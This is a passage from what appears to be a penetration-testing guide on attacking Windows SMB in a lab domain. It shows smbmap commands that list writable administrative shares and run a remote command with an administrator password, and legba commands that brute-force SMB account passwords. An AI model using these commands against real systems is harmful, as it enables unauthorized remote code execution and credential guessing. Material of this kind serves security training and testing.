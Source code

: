 For more information:
- https://sensepost.com/blog/2024/guest-vs-null-session-on-windows/

### Scenario 2 - RCE Via access to Administrative Shares

If it is possible to access administrative shares of SMB such as `ADMIN$`, `C$` and `IPC$`, then it might be possible to obtain Remote Code Execution (RCE).

```sh
smbmap -H 192.168.122.30 -u "Administrator" -p "Password123!"
```

Output
```sh
[+] IP: 192.168.122.30:445      Name: hexdump.lab               Status: ADMIN!!!   
           Disk                                                    Permissions     Comment
           ----                                                    -----------     -------
           ADMIN$                                                  READ, WRITE     Remote Admin
           C$                                                      READ, WRITE     Default share
           IPC$                                                    READ ONLY       Remote IPC
           NETLOGON                                                READ, WRITE     Logon server share 
           SharedFiles                                             READ, WRITE
           SYSVOL                                                  READ, WRITE     Logon server share
```

To execute commands using smbmap
```sh
smbmap -H 192.168.122.30 -u administrator -p "Password123!" -x 'whoami'
```

### Scenario 3 - SMB Brute Forcing

We can use `legba` (developed by evilsocket) to bruteforce access to SMB.
  - https://github.com/evilsocket/legba

Get shell within legba docker
```sh
docker run --entrypoint "/bin/bash" -v $(pwd)/wordlists:/data --network host -it evilsocket/legba:latest
```

Bruteforce administrator password
```sh
legba smb --smb-workgroup hexdump.lab --smb-share "C$" --username administrator --password ./passwords.txt --target 192.168.122.30
```

Bruteforce leo password
```sh
legba smb --smb-workgroup hexdump.lab --smb-share "SharedFiles" --username leo --password ./passwords.txt --target 192.168.122.30
```

### Scenario 4 - SMB Password Spraying
